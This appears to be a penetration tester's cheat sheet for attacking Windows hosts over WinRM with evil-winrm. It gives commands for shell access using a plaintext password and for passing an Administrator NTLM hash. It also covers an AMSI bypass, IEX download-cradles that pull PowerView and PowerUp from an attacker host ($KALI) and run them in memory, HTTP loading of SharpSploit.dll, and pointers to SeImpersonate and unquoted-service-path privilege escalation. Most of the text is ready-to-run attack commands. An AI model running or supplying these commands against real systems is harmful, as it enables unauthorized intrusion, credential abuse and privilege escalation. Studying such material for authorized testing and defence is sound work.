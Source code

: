 **WinRM (Windows Remote Management) used against WinRM services (Microsoft implementation of WS-Management Protocol), usually port 5985.**
```bash - kali
sudo gem install winrm winrm-fs colorize stringio
```

```bash - kali
cd /opt && sudo git clone https://github.com/Hackplayers/evil-winrm.git
```

#### Shell with WinRM
```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u jamie -p 'rangers'
```
#### Passing the hash
```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u Administrator -H '823452073d75b9d1cf70ebdf86c7f98e'
```

| SAMPLE DC RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | DC |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | dc.pentesting.local |
| SAMPLE AD RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | AD |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | ad.pentesting.local |
#### 24 EvilWinRM
![[Port 5985 - WinRM ~#Steps]]

#### 25 EvilWinRM + Local Priv Esc Upload and Download
![[Port 5985 - WinRM ~#Downloading files - MUST USE FULL PATHS]]
![[Port 5985 - WinRM ~#Uploading files - MUST USE FULL PATHS]]

#### 26 EvilWinRM + Local Priv Esc PowerView ps1
Download the following:
```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

```
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1
```

```
menu
```

```
Bypass-4MSI
```

[[Python#Server]]
```
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/PowerView.ps1')
```

```
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/PowerUp.ps1')
```

```
Invoke-AllChecks
```

#### EvilWinRM + Local Privilege Escalation SharpSploit Enumeration

https://github.com/cobbr/SharpSploit

GUIDE: https://blog.king-sabri.net/red-team/how-to-compile-embed-and-use-sharpsploit

[[Python#Server]]

```
Bypass-4MSI
```

```
Dll-Loader -http -path http://$KALI/SharpSploit.dll
```

```
menu
```

```
[SharpSploit.
```

Hit tab a few times to see all possibilities!
```
[SharpSploit.Enumeration.Net]::GetNetLocalGroupMembers()
```

```
[SharpSploit.Enumeration.Net]::GetNetLocalGroups()
```

```
[SharpSploit.Enumeration.Net]::GetNetLoggedOnUsers()
```

```
[SharpSploit.Enumeration.Net]::GetNetSessions()
```

```
[SharpSploit.Enumeration.Net]::GetNetShares()
```

#### 33 EvilWinRM + Local Priv Esc SEImpersonate
[[7._Potato or PrintSpoofer#PrintSpoofer]]

#### 34 EvilWinRM + Local Priv Esc Unquoted Service Path

[[16._Unquoted Path]]

Depending on which folder we have read / write access to:
C:\Program.exe
C:\Program Files\Abyss.exe
C:\Program Files\Abyss Web\ Abyss Web Server\abyssws.exe
